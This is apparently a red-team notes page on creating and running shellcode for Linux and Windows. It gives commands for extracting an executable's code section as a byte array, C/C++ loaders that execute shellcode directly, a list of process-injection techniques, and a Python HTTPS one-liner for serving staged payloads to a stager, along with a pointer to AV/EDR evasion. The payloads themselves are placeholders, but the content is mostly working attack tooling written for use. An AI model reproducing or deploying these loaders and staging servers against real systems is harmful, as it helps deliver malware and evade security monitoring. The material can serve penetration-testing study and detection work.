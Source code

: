 # Shellcode Creation
## Linux

Generating shellcode for a Linux operating system: Tips.

>[!note]
>When generating MSFVenom shellcode to be executed by a stager, use the `raw` format, as the shellcode will be downloaded directly into memory.

```shell
# Copy and save executable code as c-string. (Useful to convert slivers to shellcode, etc. when not using B64 or similar)

objcopy -j .text -O binary <compiled executable> <text section to save to (still bin)>
xxd -i <text section> 
```

```c
// Example code for Linux direct execution

#include <stdio.h>

int main(int argc, char **argv) {
    unsigned char message[] = {
        <shellcode goes here>
    };
    
    (*(void(*)())message)();
    return 0;
}
```

## Windows

Generating shellcode for a Windows operating system: Tips

```cpp
// Example code for Windows direct execution

#include <windows.h>
char stager[] = {
	<shellcode goes here> 
};
int main()
{
    DWORD oldProtect;
    VirtualProtect(stager, sizeof(stager), PAGE_EXECUTE_READ, &oldProtect);
    int (*shellcode)() = (int(*)())(void*)stager;
    shellcode();
}
```

# Shellcode Injection Techniques
- Direct Injection
- Process Hollowing
- Thread Injection
- DLL Injection

# Staged Payloads
We can generate staged payloads with [[MSFVenom]]. 

This means we are going to have to serve the payload ourselves as well. This example shows an HTTPS stage listener. 
```shell
# Spin up an HTTPS server for serving our shellcode to the stager

openssl req -new -x509 -keyout <certificate outfile> -out <same outfile as before> -days 365 -nodes

python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='<certificate we just generated>',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"
```

An example C# stager can be found here: https://github.com/mvelazc0/defcon27_csharp_workshop/blob/master/Labs/lab2/2.cs. However, you should be able to perform HTTPS requests in your language of preference to fetch the raw shellcode yourself. 

>[!danger] Detection Risk
>Shellcode is inherently risky. Use the tactics described in [[Evasion]] to help your code avoid detection by AV/EDR/XDR.

